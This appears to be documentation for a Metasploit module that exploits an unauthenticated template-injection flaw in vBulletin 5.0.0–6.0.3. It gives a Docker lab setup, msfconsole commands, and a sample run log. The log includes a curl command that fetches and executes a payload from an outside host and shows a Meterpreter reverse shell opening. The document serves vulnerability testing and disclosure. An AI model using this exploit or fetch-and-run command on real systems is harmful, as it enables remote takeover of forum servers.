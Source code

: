 ## Vulnerable Application

This Metasploit module exploits a design flaw in vBulletin’s AJAX API handler and template
rendering system, affecting **vBulletin 5.0.0 through 6.0.3** on **PHP 8.1+**.
An unauthenticated attacker can invoke the protected `vB_Api_Ad::replaceAdTemplate()` method to inject a malicious template that calls
`"system"("base64_decode"($_POST[<param>]))`, then trigger execution via the `ajax/render/ad_<location>` endpoint,
yielding arbitrary code execution as the webserver user.

> **Note:** vBulletin is commercial software and is **not** included here. You must obtain a licensed copy and extract it under `./upload/`.

---

## To replicate vulnerable environments

1. **vBulletin 6.0.1 (tested)**

   * Purchase and download vBulletin 6.0.1 from the official portal.
   * Extract all files into `./upload/`.

2. **Other versions (5.0.0–6.0.3)**

   * Repeat the above with any of the supported versions.
   * Ensure you run on PHP 8.1+; earlier PHP versions do not expose this flaw.

---

## Docker Compose Configuration

```yaml
services:
  db:
    image: mysql:5.7
    container_name: vbulletin_db
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root_password_here
      MYSQL_DATABASE: vbulletin
      MYSQL_USER: vbulletin
      MYSQL_PASSWORD: vb_password_here
    volumes:
      - db_data:/var/lib/mysql

  web:
    build: .
    container_name: vbulletin_web
    depends_on: [db]
    ports: ["8888:80"]
    environment:
      VB_DB_HOST: db
      VB_DB_NAME: vbulletin
      VB_DB_USER: vbulletin
      VB_DB_PASS: vb_password_here

volumes:
  db_data:
```

Create the following **Dockerfile** and **docker-entrypoint.sh** in the same directory:

**Dockerfile**

```dockerfile
FROM php:8.1-apache

COPY upload/ /var/www/html/

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
       libzip-dev zlib1g-dev libonig-dev \
       libpng-dev libjpeg-dev libfreetype6-dev && \
    docker-php-ext-install \
       zip mysqli pdo_mysql gd mbstring && \
    a2enmod rewrite && \
    rm -rf /var/lib/apt/lists/*

RUN echo "phar.readonly=Off" > /usr/local/etc/php/conf.d/vbulletin.ini

COPY --chmod 755 docker-entrypoint.sh /usr/local/bin/
ENTRYPOINT ["docker-entrypoint.sh"]
CMD ["apache2-foreground"]
```

**docker-entrypoint.sh**

```bash
#!/bin/bash
chown -R www-data:www-data /var/www/html
exec "$@"
```

---

## Verification Steps

1. **Start the environment**
```bash
docker-compose up -d
```

2. **Install vBulletin**
Open [http://localhost:8888](http://localhost:8888) and complete the installation:

* **Database Host:** db
* **DB Name:** vbulletin
* **DB User:** vbulletin
* **DB Password:** vb_password_here

3. **Run `msfconsole`**

```bash
use exploit/multi/http/vbulletin_replace_ad_template_rce
set RHOSTS 127.0.0.1
set RPORT 8888
set TARGETURI /
check
```

---

## Options

No option

---

## Scenarios

### Unauthenticated Pre-Auth RCE

1. Ensure vBulletin 5.0.0–6.0.3 is installed and running on PHP 8.1+.
2. In `msfconsole`, configure and run:

```bash
set RHOSTS localhost
set RPORT 8888
set TARGETURI /
```

---

## Expected Results

### With `cmd/linux/http/x64/meterpreter/reverse_tcp`

```plaintext
msf exploit(multi/http/vbulletin_replace_ad_template_rce) > run http://lab:8888
[*] Command to run on remote host: curl -so ./BGZuzbsi http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA;chmod +x ./BGZuzbsi;./BGZuzbsi&
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Starting vulnerability check on 127.0.0.1:8888/
[*] Generating random marker and condition for mode check
[*] Sending POST to ajax/api/ad/replaceAdTemplate (location=QuFcp)
[*] Injection response: HTTP 200
[+] Marker found in injection response body
[+] The target is vulnerable.
[*] Generating random marker and condition for mode exploit
[*] Sending POST to ajax/api/ad/replaceAdTemplate (location=XSGFS)
[*] Client 172.28.0.3 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.28.0.3 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.28.0.3:53014) at 2025-05-29 16:27:00 +0200

meterpreter > sysinfo
Computer     : 172.28.0.3
OS           : Debian 12.11 (Linux 6.14.8-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
